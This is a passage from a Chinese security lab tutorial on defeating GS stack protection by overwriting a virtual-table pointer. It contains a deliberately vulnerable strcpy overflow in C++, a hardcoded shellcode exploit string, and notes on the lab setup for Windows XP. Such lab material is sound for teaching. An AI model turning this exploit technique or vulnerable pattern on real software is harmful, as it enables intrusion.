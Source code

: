 class GSVirtual{
public:
    void gsv(char *src)
    {
        char buf[200];
        strcpy(buf, src);
        vir();
    }
    virtual void vir()
    {
    }
};

int main()
{
    GSVirtual test;
    test.gsv(
	"\xfc\x5e\x97\x7c\x90\x90\x90\x90\x90\x90\x90\x90\xb0\x9d\x93\x7c"
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
	"\xF0\x20\x40\0"
    );
    return 0;
}

</code></pre>

<font color=#f00>说明：shellcode中头部的0x7c992b04为"pop edi, pop esi, retn"指令的地址，不同版本的系统中该地址可能不同</font>


#### 3.2 实验原理

实验思路：
1. 类GSVirtual中的gsv函数存在典型的栈溢出漏洞
2. 类GSVirtual中包含一个虚函数vir
3. 当gsv中的buf变量发生溢出的时候有可能影响虚表指针，如果可以控制虚表指针，将其指向我们可以控制的内存空间，就可以在程序调用时控制程序的流程。

实验环境

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows XP SP3| |
|编译器|Visual Studio 2008| |
|编译选项|<font color=#f00>禁用优化选项</font>| |
|build版本|release版本| |
